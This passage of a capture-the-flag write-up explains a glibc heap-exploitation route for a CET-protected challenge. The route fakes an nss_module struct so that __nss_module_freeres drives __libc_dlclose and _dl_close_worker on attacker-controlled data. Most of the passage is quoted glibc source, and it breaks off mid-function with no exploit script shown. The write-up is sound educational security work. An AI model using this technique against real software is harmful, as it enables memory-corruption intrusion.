# Escape CET 

## initial recon -





So like the challenge title says, we had to assume that CET was enabled and checksec proved that. I initially thought that my cpu/kernel would enable the shadow stack on its own for cet enabled binary but it did not. We will see that later.

Anyways, I was trying out the chall `poly` while my junior was doing this chall but alas i could not gett past the clobbering after some top chunk shenanigans in that chall and started working on this challenge.



so yea, i had some initial knowledge from my junior before i started working on the chall but ill explain from the start.

so when we run the binary we get this - 



- we seemingly get two crucial pieces of info i.e : 

i. the wandering shelf of stone spans `x` bytes.


ii. and the address of the stone tablet.

> remmember the chall text yap, it is actually giving hints that u will understand later during reversing the chall.

**before looking at the decomp, we should see what the leak we are getting from the binary :**



- From multiple runs of the binary in gdb, i determined the leak awlays gives us the libc base addr.

Formula : `libc base = leak_addr + leak_size + 0x1000a000`

**We can call this anon space where the leak is from `slab` from now on to avoid confusion with libc heap**.

aight now lets get reversing to understand the chall better.


## Reversing the bianry -




this basically saves the i/o file structs in the binary and calls relevant funcs to do that.

Jist of it is it snap shots the file structs and saves them so that FSOP path is completely blocked.


- this part is waht gives us the leaks. basically mmaps the slab andn stores the addr and size in globals.


> Lets now look at the options available to us in the menu.


### Carve Ring :





This is a 4 byte write primitive. It only accepts addrs inside libc and only at offsets after `libc base + 0x208000`.


### Write Slab :



The slab write is a raw write into 0xa000 bytes of the leaked slab.

- no point in reversing this further as it is just an area were we can store stuff like fsop structs and other stuff that we will see further into the writeup.


### Cross Bridge :


tldr ; this gives us a libc fn call, but with randomised registers.


#### Guard



- Basically prevents FSOP and exit Handler pwn.

also it calls _exit() which if you know does not do the io flushing or the cleanup and stuff.


# Exploitation

- So now that we know the libc base and our primitives, what can we even do?

- exit handler and FSOP we cant do.

- so i basically started looking at libc functions that we can call using the bridge that doesnt require register setup and also isnt protected by guard (i.e io stuff and the exit()).


- After like 5 hours in bootlin and gdb dissassembling random fns, i found the fn `__nss_module_freeres()`.


## NSS

- Name Service switch is the module that lets us read dns/hosts etc from smth like `/etc/nsswitch.conf`.


- Internally, glibc keeps a linked list of loaded NSS modules in a global var called `nss_module_list`.

src : 
- https://man7.org/linux/man-pages/man8/nss-resolve.8.html

- https://elixir.bootlin.com/glibc/glibc-2.4/source/nss/Versions


- each node in the linked list is struct : 

## Source Code Exploration :
- If you want to skip this part : GOTO `PATH AND VALIDATIONS REQUIRED` section.

```c
struct nss_module
{
  /* Actual type is enum nss_module_state.  Use int due to atomic
     access.  Used in a double-checked locking idiom.  */
  int state;

  /* The function pointers in the module.  */
  union
  {
    struct nss_module_functions typed;
    nss_module_functions_untyped untyped;
  } functions;

  /* Only used for __libc_freeres unloading.  */
  void *handle;

  /* The next module in the list. */
  struct nss_module *next;

  /* The name of the module (as it appears in /etc/nsswitch.conf).  */
  char name[];
};
```

src : https://elixir.bootlin.com/glibc/glibc-2.35/source/nss/nss_module.h#L61

> So how does all this matter?

- `__nss_module_freeres()` is a function that basically is cleanup code for the nss modules just like how io_wfile_overflow or whatever idr the exact name is in the flushing path for the io stuff etc.


lets look at the source code for this function - 

```c
void
__nss_module_freeres (void)
{
  struct nss_module *current = nss_module_list;
  while (current != NULL)
    {
      /* Ignore built-in modules (which have a NULL handle).  */
      if (current->state == nss_module_loaded
	  && current->handle != NULL)
        __libc_dlclose (current->handle);

      struct nss_module *next = current->next;
      free (current);
      current = next;
    }
  nss_module_list = NULL;
}
```

Source : https://elixir.bootlin.com/glibc/glibc-2.43/source/nss/nss_module.c#L420

which is rougly :

```c
module = nss_module_list;

while (module) {
    if (module->state == 1 && module->handle) {
        __libc_dlclose(module->handle);
    }

    next = module->next;
    free(module);
    module = next;
}
```
This is the relevant stuff we need basically.

If we `module.state==1` and `module.handle!=NULL`, then we can call `__libc_dlclose(module->handle)`.

So what we if we fake this struct in our slab and then call `__nss_module_freeres()` using the bridge?

since the call will go thru we enter into `__libc_dlclose()` and we can do some stuff there, lets look at that.

## __libc_dlclose()

```c
int
__libc_dlclose (void *map)
{
#ifdef SHARED
  if (GLRO (dl_dlfcn_hook) != NULL)
    return GLRO (dl_dlfcn_hook)->libc_dlclose (map);
#endif
  return dlerror_run (do_dlclose, map);
}

```
src : https://elixir.bootlin.com/glibc/glibc-2.43/source/elf/dl-libc.c#L225
- It calls dlclose with map. we control this map as it is basically `module.handle`


### do_dlclose

do_dlclose() calls dlro dlclose

```c
static void
do_dlclose (void *ptr)
{
  GLRO(dl_close) ((struct link_map *) ptr);
}

```
### _dl_close()
src : https://codebrowser.dev/glibc/glibc/elf/dl-libc.c.html#123

then dlclose src : 

```c
void
_dl_close (void *_map)
{
  struct link_map *map = _map;

  /* We must take the lock to examine the contents of map and avoid
     concurrent dlopens.  */
  __rtld_lock_lock_recursive (GL(dl_load_lock));

  /* At this point we are guaranteed nobody else is touching the list of
     loaded maps, but a concurrent dlclose might have freed our map
     before we took the lock. There is no way to detect this (see below)
     so we proceed assuming this isn't the case.  First see whether we
     can remove the object at all.  */
  if (__glibc_unlikely (map->l_nodelete_active))
    {
      /* Nope.  Do nothing.  */
      __rtld_lock_unlock_recursive (GL(dl_load_lock));
      return;
    }

  /* At present this is an unreliable check except in the case where the
     caller has recursively called dlclose and we are sure the link map
     has not been freed.  In a non-recursive dlclose the map itself
     might have been freed and this access is potentially a data race
     with whatever other use this memory might have now, or worse we
     might silently corrupt memory if it looks enough like a link map.
     POSIX has language in dlclose that appears to guarantee that this
     should be a detectable case and given that dlclose should be threadsafe
     we need this to be a reliable detection.
     This is bug 20990. */
  if (__builtin_expect (map->l_direct_opencount, 1) == 0)
    {
      __rtld_lock_unlock_recursive (GL(dl_load_lock));
      _dl_signal_error (0, map->l_name, NULL, N_("shared object not open"));
    }

  _dl_close_worker (map, false);

  __rtld_lock_unlock_recursive (GL(dl_load_lock));
}
```

src : https://elixir.bootlin.com/glibc/glibc-2.43/source/elf/dl-close.c

- again this calls `_dl_close_worker()` which is the actual worker for dlclose().

### _dl_close_worker()
the source code is quite big for this : 
https://elixir.bootlin.com/glibc/glibc-2.43/source/elf/dl-close.c#L109

> The Source 
```c

void
_dl_close_worker (struct link_map *map, bool force)
{
  /* One less direct use.  */
  --map->l_direct_opencount;

  /* If _dl_close is called recursively (some destructor call dlclose),
     just record that the parent _dl_close will need to do garbage collection
     again and return.  */
  static enum { not_pending, pending, rerun } dl_close_state;

  if (map->l_direct_opencount > 0 || map->l_type != lt_loaded
      || dl_close_state != not_pending)
    {
      if (map->l_direct_opencount == 0 && map->l_type == lt_loaded)
	dl_close_state = rerun;

      /* There are still references to this object.  Do nothing more.  */
      if (__glibc_unlikely (GLRO(dl_debug_mask) & DL_DEBUG_FILES))
	_dl_debug_printf ("\nclosing file=%s; direct_opencount=%u\n",
			  map->l_name, map->l_direct_opencount);

      return;
    }

  Lmid_t nsid = map->l_ns;
  struct link_namespaces *ns = &GL(dl_ns)[nsid];

 retry:
  dl_close_state = pending;

  bool any_tls = false;
  const unsigned int nloaded = ns->_ns_nloaded;
  struct link_map *maps[nloaded];

  /* Run over the list and assign indexes to the link maps and enter
     them into the MAPS array.  */
  int idx = 0;
  for (struct link_map *l = ns->_ns_loaded; l != NULL; l = l->l_next)
    {
      l->l_map_used = 0;
      l->l_map_done = 0;
      l->l_idx = idx;
      maps[idx] = l;
      ++idx;
    }
  assert (idx == nloaded);

  /* Put the dlclose'd map first, so that its destructor runs first.
     The map variable is NULL after a retry.  */
  if (map != NULL)
    {
      maps[map->l_idx] = maps[0];
      maps[map->l_idx]->l_idx = map->l_idx;
      maps[0] = map;
      maps[0]->l_idx = 0;
    }

  /* Keep track of the lowest index link map we have covered already.  */
  int done_index = -1;
  while (++done_index < nloaded)
    {
      struct link_map *l = maps[done_index];

      if (l->l_map_done)
	/* Already handled.  */
	continue;

      /* Check whether this object is still used.  */
      if (l->l_type == lt_loaded
	  && l->l_direct_opencount == 0
	  && !l->l_nodelete_active
	  /* See CONCURRENCY NOTES in cxa_thread_atexit_impl.c to know why
	     acquire is sufficient and correct.  */
	  && atomic_load_acquire (&l->l_tls_dtor_count) == 0
	  && !l->l_map_used)
	continue;

      /* We need this object and we handle it now.  */
      l->l_map_used = 1;
      l->l_map_done = 1;
      /* Signal the object is still needed.  */
      l->l_idx = IDX_STILL_USED;

      /* Mark all dependencies as used.  */
      if (l->l_initfini != NULL)
	{
	  /* We are always the zeroth entry, and since we don't include
	     ourselves in the dependency analysis start at 1.  */
	  struct link_map **lp = &l->l_initfini[1];
	  while (*lp != NULL)
	    {
	      if ((*lp)->l_idx != IDX_STILL_USED)
		{
		  assert ((*lp)->l_idx >= 0 && (*lp)->l_idx < nloaded);

		  if (!(*lp)->l_map_used)
		    {
		      (*lp)->l_map_used = 1;
		      /* If we marked a new object as used, and we've
			 already processed it, then we need to go back
			 and process again from that point forward to
			 ensure we keep all of its dependencies also.  */
		      if ((*lp)->l_idx - 1 < done_index)
			done_index = (*lp)->l_idx - 1;
		    }
		}

	      ++lp;
	    }
	}
      /* And the same for relocation dependencies.  */
      if (l->l_reldeps != NULL)
	for (unsigned int j = 0; j < l->l_reldeps->act; ++j)
	  {
	    struct link_map *jmap = l->l_reldeps->list[j];

	    if (jmap->l_idx != IDX_STILL_USED)
	      {
		assert (jmap->l_idx >= 0 && jmap->l_idx < nloaded);

		if (!jmap->l_map_used)
		  {
		    jmap->l_map_used = 1;
		    if (jmap->l_idx - 1 < done_index)
		      done_index = jmap->l_idx - 1;
		  }
	      }
	  }
    }

  /* Sort the entries.  Unless retrying, the maps[0] object (the
     original argument to dlclose) needs to remain first, so that its
     destructor runs first.  */
  _dl_sort_maps (maps, nloaded, /* force_first */ map != NULL, true);

  /* Call all termination functions at once.  */
  bool unload_any = false;
  bool scope_mem_left = false;
  unsigned int unload_global = 0;
  unsigned int first_loaded = ~0;
  for (unsigned int i = 0; i < nloaded; ++i)
    {
      struct link_map *imap = maps[i];

      /* All elements must be in the same namespace.  */
      assert (imap->l_ns == nsid);

      if (!imap->l_map_used)
	{
	  assert (imap->l_type == lt_loaded && !imap->l_nodelete_active);

	  /* Call its termination function.  Do not do it for
	     half-cooked objects.  Temporarily disable exception
	     handling, so that errors are fatal.  */
	  if (imap->l_init_called)
	    _dl_catch_exception (NULL, _dl_call_fini, imap);

#ifdef SHARED
	  /* Auditing checkpoint: we will start deleting objects.
	     This is supposed to happen before la_objclose (see _dl_fini),
	     but only once per non-recursive dlclose call.  */
	  if (!unload_any)
	    _dl_audit_activity_nsid (nsid, LA_ACT_DELETE);

	  /* Auditing checkpoint: we remove an object.  */
	  _dl_audit_objclose (imap);
#endif

	  /* This object must not be used anymore.  */
	  imap->l_removed = 1;

	  /* We indeed have an object to remove.  */
	  unload_any = true;

	  if (imap->l_global)
	    ++unload_global;

	  /* Remember where the first dynamically loaded object is.  */
	  if (i < first_loaded)
	    first_loaded = i;
	}
      /* Else imap->l_map_used.  */
      else if (imap->l_type == lt_loaded)
	{
	  struct r_scope_elem *new_list = NULL;

	  if (imap->l_searchlist.r_list == NULL && imap->l_initfini != NULL)
	    {
	      /* The object is still used.  But one of the objects we are
		 unloading right now is responsible for loading it.  If
		 the current object does not have it's own scope yet we
		 have to create one.  This has to be done before running
		 the finalizers.

		 To do this count the number of dependencies.  */
	      unsigned int cnt;
	      for (cnt = 1; imap->l_initfini[cnt] != NULL; ++cnt)
		;

	      /* We simply reuse the l_initfini list.  */
	      imap->l_searchlist.r_list = &imap->l_initfini[cnt + 1];
	      imap->l_searchlist.r_nlist = cnt;

	      new_list = &imap->l_searchlist;
	    }

	  /* Count the number of scopes which remain after the unload.
	     When we add the local search list count it.  Always add
	     one for the terminating NULL pointer.  */
	  size_t remain = (new_list != NULL) + 1;
	  bool removed_any = false;
	  for (size_t cnt = 0; imap->l_scope[cnt] != NULL; ++cnt)
	    /* This relies on l_scope[] entries being always set either
	       to its own l_symbolic_searchlist address, or some map's
	       l_searchlist address.  */
	    if (imap->l_scope[cnt] != &imap->l_symbolic_searchlist)
	      {
		struct link_map *tmap = (struct link_map *)
		  ((char *) imap->l_scope[cnt]
		   - offsetof (struct link_map, l_searchlist));
		assert (tmap->l_ns == nsid);
		if (tmap->l_idx == IDX_STILL_USED)
		  ++remain;
		else
		  removed_any = true;
	      }
	    else
	      ++remain;

	  if (removed_any)
	    {
	      /* Always allocate a new array for the scope.  This is
		 necessary since we must be able to determine the last
		 user of the current array.  If possible use the link map's
		 memory.  */
	      size_t new_size;
	      struct r_scope_elem **newp;

#define SCOPE_ELEMS(imap) \
  (sizeof (imap->l_scope_mem) / sizeof (imap->l_scope_mem[0]))

	      if (imap->l_scope != imap->l_scope_mem
		  && remain < SCOPE_ELEMS (imap))
		{
		  new_size = SCOPE_ELEMS (imap);
		  newp = imap->l_scope_mem;
		}
	      else
		{
		  new_size = imap->l_scope_max;
		  newp = (struct r_scope_elem **)
		    malloc (new_size * sizeof (struct r_scope_elem *));
		  if (newp == NULL)
		    _dl_signal_error (ENOMEM, "dlclose", NULL,
				      N_("cannot create scope list"));
		}

	      /* Copy over the remaining scope elements.  */
	      remain = 0;
	      for (size_t cnt = 0; imap->l_scope[cnt] != NULL; ++cnt)
		{
		  if (imap->l_scope[cnt] != &imap->l_symbolic_searchlist)
		    {
		      struct link_map *tmap = (struct link_map *)
			((char *) imap->l_scope[cnt]
			 - offsetof (struct link_map, l_searchlist));
		      if (tmap->l_idx != IDX_STILL_USED)
			{
			  /* Remove the scope.  Or replace with own map's
			     scope.  */
			  if (new_list != NULL)
			    {
			      newp[remain++] = new_list;
			      new_list = NULL;
			    }
			  continue;
			}
		    }

		  newp[remain++] = imap->l_scope[cnt];
		}
	      newp[remain] = NULL;

	      struct r_scope_elem **old = imap->l_scope;

	      imap->l_scope = newp;

	      /* No user anymore, we can free it now.  */
	      if (old != imap->l_scope_mem)
		{
		  if (_dl_scope_free (old))
		    /* If _dl_scope_free used THREAD_GSCOPE_WAIT (),
		       no need to repeat it.  */
		    scope_mem_left = false;
		}
	      else
		scope_mem_left = true;

	      imap->l_scope_max = new_size;
	    }
	  else if (new_list != NULL)
	    {
	      /* We didn't change the scope array, so reset the search
		 list.  */
	      imap->l_searchlist.r_list = NULL;
	      imap->l_searchlist.r_nlist = 0;
	    }

	  /* The loader is gone, so mark the object as not having one.
	     Note: l_idx != IDX_STILL_USED -> object will be removed.  */
	  if (imap->l_loader != NULL
	      && imap->l_loader->l_idx != IDX_STILL_USED)
	    imap->l_loader = NULL;

	  /* Remember where the first dynamically loaded object is.  */
	  if (i < first_loaded)
	    first_loaded = i;
	}
    }

  /* If there are no objects to unload, do nothing further.  */
  if (!unload_any)
    goto out;

  /* Notify the debugger we are about to remove some loaded objects.
     LA_ACT_DELETE has already been signalled above for !unload_any.  */
  struct r_debug *r = _dl_debug_update (nsid);
  _dl_debug_change_state (r, RT_DELETE);
  LIBC_PROBE (unmap_start, 2, nsid, r);

  if (unload_global)
    {
      /* Some objects are in the global scope list.  Remove them.  */
      struct r_scope_elem *ns_msl = ns->_ns_main_searchlist;
      unsigned int i;
      unsigned int j = 0;
      unsigned int cnt = ns_msl->r_nlist;

      while (cnt > 0 && ns_msl->r_list[cnt - 1]->l_removed)
	--cnt;

      if (cnt + unload_global == ns_msl->r_nlist)
	/* Speed up removing most recently added objects.  */
	j = cnt;
      else
	for (i = 0; i < cnt; i++)
	  if (ns_msl->r_list[i]->l_removed == 0)
	    {
	      if (i != j)
		ns_msl->r_list[j] = ns_msl->r_list[i];
	      j++;
	    }
      ns_msl->r_nlist = j;
    }

  if (!RTLD_SINGLE_THREAD_P
      && (unload_global
	  || scope_mem_left
	  || (GL(dl_scope_free_list) != NULL
	      && GL(dl_scope_free_list)->count)))
    {
      THREAD_GSCOPE_WAIT ();

      /* Now we can free any queued old scopes.  */
      struct dl_scope_free_list *fsl = GL(dl_scope_free_list);
      if (fsl != NULL)
	while (fsl->count > 0)
	  free (fsl->list[--fsl->count]);
    }

  size_t tls_free_start;
  size_t tls_free_end;
  tls_free_start = tls_free_end = NO_TLS_OFFSET;

  /* Protects global and module specitic TLS state.  */
  __rtld_lock_lock_recursive (GL(dl_load_tls_lock));

  /* We modify the list of loaded objects.  */
  __rtld_lock_lock_recursive (GL(dl_load_write_lock));

  /* Check each element of the search list to see if all references to
     it are gone.  */
  for (unsigned int i = first_loaded; i < nloaded; ++i)
    {
      struct link_map *imap = maps[i];
      if (!imap->l_map_used)
	{
	  assert (imap->l_type == lt_loaded);

	  /* That was the last reference, and this was a dlopen-loaded
	     object.  We can unmap it.  */

	  /* Remove the object from the dtv slotinfo array if it uses TLS.  */
	  if (__glibc_unlikely (imap->l_tls_blocksize > 0))
	    {
	      any_tls = true;

	      if (GL(dl_tls_dtv_slotinfo_list) != NULL
		  && ! remove_slotinfo (imap->l_tls_modid,
					GL(dl_tls_dtv_slotinfo_list), 0,
					imap->l_init_called))
		/* All dynamically loaded modules with TLS are unloaded.  */
		/* Can be read concurrently.  */
		atomic_store_relaxed (&GL(dl_tls_max_dtv_idx),
				      GL(dl_tls_static_nelem));

	      if (imap->l_tls_offset != NO_TLS_OFFSET
		  && imap->l_tls_offset != FORCED_DYNAMIC_TLS_OFFSET)
		{
		  /* Collect a contiguous chunk built from the objects in
		     this search list, going in either direction.  When the
		     whole chunk is at the end of the used area then we can
		     reclaim it.  */
#if TLS_TCB_AT_TP
		  if (tls_free_start == NO_TLS_OFFSET
		      || (size_t) imap->l_tls_offset == tls_free_start)
		    {
		      /* Extend the contiguous chunk being reclaimed.  */
		      tls_free_start
			= imap->l_tls_offset - imap->l_tls_blocksize;

		      if (tls_free_end == NO_TLS_OFFSET)
			tls_free_end = imap->l_tls_offset;
		    }
		  else if (imap->l_tls_offset - imap->l_tls_blocksize
			   == tls_free_end)
		    /* Extend the chunk backwards.  */
		    tls_free_end = imap->l_tls_offset;
		  else
		    {
		      /* This isn't contiguous with the last chunk freed.
			 One of them will be leaked unless we can free
			 one block right away.  */
		      if (tls_free_end == GL(dl_tls_static_used))
			{
			  GL(dl_tls_static_used) = tls_free_start;
			  tls_free_end = imap->l_tls_offset;
			  tls_free_start
			    = tls_free_end - imap->l_tls_blocksize;
			}
		      else if ((size_t) imap->l_tls_offset
			       == GL(dl_tls_static_used))
			GL(dl_tls_static_used)
			  = imap->l_tls_offset - imap->l_tls_blocksize;
		      else if (tls_free_end < (size_t) imap->l_tls_offset)
			{
			  /* We pick the later block.  It has a chance to
			     be freed.  */
			  tls_free_end = imap->l_tls_offset;
			  tls_free_start
			    = tls_free_end - imap->l_tls_blocksize;
			}
		    }
#elif TLS_DTV_AT_TP
		  if (tls_free_start == NO_TLS_OFFSET)
		    {
		      tls_free_start = imap->l_tls_firstbyte_offset;
		      tls_free_end = (imap->l_tls_offset
				      + imap->l_tls_blocksize);
		    }
		  else if (imap->l_tls_firstbyte_offset == tls_free_end)
		    /* Extend the contiguous chunk being reclaimed.  */
		    tls_free_end = imap->l_tls_offset + imap->l_tls_blocksize;
		  else if (imap->l_tls_offset + imap->l_tls_blocksize
			   == tls_free_start)
		    /* Extend the chunk backwards.  */
		    tls_free_start = imap->l_tls_firstbyte_offset;
		  /* This isn't contiguous with the last chunk freed.
		     One of them will be leaked unless we can free
		     one block right away.  */
		  else if (imap->l_tls_offset + imap->l_tls_blocksize
			   == GL(dl_tls_static_used))
		    GL(dl_tls_static_used) = imap->l_tls_firstbyte_offset;
